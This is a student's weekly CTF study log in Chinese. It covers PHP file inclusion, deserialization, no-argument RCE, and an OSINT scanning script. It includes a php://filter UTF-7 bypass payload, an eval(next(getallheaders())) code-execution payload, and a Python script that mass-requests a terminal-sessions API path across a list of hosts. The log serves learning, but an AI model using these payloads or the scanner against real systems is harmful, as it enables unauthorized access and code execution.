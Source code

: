<a name="eMai1"></a>
## 本周内容
1.初步认识了XSS，在dvwa做题<br />2.复现了buu的一些题<br />3.继续写开源情报<br />4.出题<br />5.准备期中考
<a name="VTTPg"></a>
## 成果展示
<a name="TA6vQ"></a>
### 1.include过滤了base和rot
```php
<?php
  highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
  @include($file);
}else{
  die("nope");
}
```
可以用convert.iconv.utf-8.utf-7和utf-8转换成为utf-7<br />payload：?file=php://filter/convert.iconv.utf-8.utf-7/resource=flag.php<br />顺遍新学了一个新方法string.strip_tags|convert.base64-decode/resource=可以用于死亡绕过![95b61469385895.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700130797341-2abd2ffb-3514-412d-9219-9d71bb75d991.png#averageHue=%23282822&clientId=u70663b78-4a54-4&from=drop&id=ua574dd37&originHeight=896&originWidth=1368&originalType=binary&ratio=1.75&rotation=0&showTitle=false&size=78606&status=done&style=none&taskId=u6d200c2d-00ea-45f9-812c-e734cafe6b3&title=)
<a name="gZByc"></a>
### 2.反序列化
死磕一道题半天才知道反序列化的echo需要urlencode()，不然会有一些字符被略过了...<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700137442034-cb27272d-4def-474b-9c90-4adc351bbefd.png#averageHue=%23a49062&clientId=u70663b78-4a54-4&from=paste&height=536&id=u061e4e7f&originHeight=1408&originWidth=2568&originalType=binary&ratio=1.75&rotation=0&showTitle=false&size=312234&status=done&style=none&taskId=u9d5f75d1-785b-4dbd-a850-ce3aa6d83db&title=&width=978.2857142857143)
<a name="DDnhm"></a>
### 3.RCE
/[^\W]+\((?R)?\)/<br />\W 元字符用于查找非单词字符。<br />单词字符包括：a-z、A-Z、0-9，以及下划线。<br />故[^\W]可以匹配所有单词字符<br />+表示可以匹配一个或多个<br />\(和\)为左右括号<br />(?R)?表示递归整个模式<br />所以只能写成a(b(c()))这种形式，而不能为a('xxx')的形式，为无参数[**RCE**](https://so.csdn.net/so/search?q=RCE&spm=1001.2101.3001.7020)****getallheaders()可以数组查看头信息**
```php
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
eval($_GET['star']);
}
} 
```
**?star=eval(next(getallheaders()));**<br />**考察了更改headers来执行eval**
<a name="HJQTQ"></a>
### 4.开源情报自己写脚本
刚开始整这个玩意还真不会整<br />后来和老师聊了2个小时终于弄会了<br />分享一个千辛万苦写出来的一个扫描api的脚本
```python
import os
import asyncio
import aiohttp
from urllib.parse import urlparse
from pyppeteer import launch
from pyppeteer.errors import NetworkError


url_file = 'output.txt'
with open(url_file, 'r') as file:
    url_list = file.readlines()

url_list = [url.strip() for url in url_list]

output_dir = 'responses'
os.makedirs(output_dir, exist_ok=True)

async def fetch(session, url):
    try:
        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36'
        }

        modified_url = url.rstrip('/') + '/api/v1/terminal/sessions/'
        async with session.get(modified_url, headers=headers, ssl=False, timeout=5) as response:
            content = await response.text()
        parsed_url = urlparse(url)
        host = parsed_url.netloc.split(':')[0]  
        port = parsed_url.netloc.split(':')[1] if len(parsed_url.netloc.split(':')) > 1 else '80'  

        output_file = os.path.join(output_dir, f'{host}_{port}.html')

        with open(output_file, 'w', encoding='utf-8') as file:
            file.write(content)

        print(f'Response for URL {url} saved to {output_file}')
    except aiohttp.ClientError as e:
        print(f'Error for URL {url}: {str(e)}, fetching next URL...')

async def main():
    async with aiohttp.ClientSession() as session:
        tasks = []
        for url in url_list:
            task = asyncio.ensure_future(fetch(session, url))
            tasks.append(task)

        await asyncio.gather(*tasks)

loop = asyncio.get_event_loop()
loop.run_until_complete(main())

```
还有各种各样的脚本写的秃头，表格转换，连接提取之类的...<br />5.XSS还只是入门，还没搞出什么名堂，下周学出来了再写o.o
<a name="X0sUh"></a>
## 心得：
这周期中考试一过应该就可以闲下来了好好搞了，最近加了开源情报之后明显CTF的学习进度就慢下来而且有点乱，下周的计划是把XSS再学学，然后学Pyjail准备一下中期考核。这周最后还看到了pearcmd，下周有时间的话再学学这个。
